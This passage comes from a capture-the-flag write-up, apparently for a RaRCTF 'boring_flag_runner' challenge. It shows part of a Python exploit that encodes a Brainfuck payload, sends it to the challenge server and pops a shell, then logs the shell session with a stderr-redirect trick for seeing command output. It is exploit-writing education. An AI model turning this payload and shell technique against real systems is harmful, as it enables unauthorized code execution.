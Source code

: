 ```
bf_payload += '>' * (8 + 2) + '.' + '<' * 0x10 + '[-' + '>' * 0x10 + '+' + '<' * 0x10 + ']' + '.' + '>' * 0x10
bf_payload += '<' + '.' + '<' * 0x10 + '[-' + '>' * 0x10 + '+' + '<' * 0x10 + ']' + '.'  + '>' * 0x10 + '+' * 0x10
bf_payload += ('<' + '.' + '<' * 0x10 + '[-' + '>' * 0x10 + '+' + '<' * 0x10 + ']' + '.'  + '>' * 0x10) * 4

bf_chars = '<]>[,.-+'
plain = b'\x40\x41\x42\x43\x44\x45\x46\x47'
for char in bf_payload:
	index = bf_chars.find(char)
	payload += chr(plain[index]).encode('ascii')
print(payload)

target.sendline(payload)

target.interactive()

```
### Interacting with the Shell:

Now, the fact that user input is getting redirected to /dev/null persists even after I popped a shell. My first idea was to set up some sort of reverse shell with netcat or similar, but I don't have a public-facing IP set up, so that would just be a massive hassle even if it would probably work. However, I came to a realization when typed in a non-shell command; I still get to see the results of stderr!
```
knittingirl@piglet:~/CTF/RaRCTF/boring_flag_runner$ python3 boring_flag_runner_payload_final.py 
[+] Opening connection to 193.57.159.27 on port 28643: Done
b'enter your program:'
b'@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@EFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF@FF@GGGGGGGGGGGGBBBBBBBBBBE@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBBGGGGGGGGGGGGGGGG@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB'
[*] Switching to interactive mode
 $ ls 
$ hello
sh: 2: hello: not found
``` 
So, if we just just pipe stdout to stderr, we should be able to view the results of any typical shell command. The session timed out fairly quickly, so it took a couple of goes, but the end result looks like this:
```
knittingirl@piglet:~/CTF/RaRCTF/boring_flag_runner$ python3 boring_flag_runner_payload_final.py 
[+] Opening connection to 193.57.159.27 on port 28643: Done
b'enter your program:'
b'@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@EFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF@FF@GGGGGGGGGGGGBBBBBBBBBBE@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBBGGGGGGGGGGGGGGGG@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB'
[*] Switching to interactive mode
 $ ls / 1>&2
bin
```
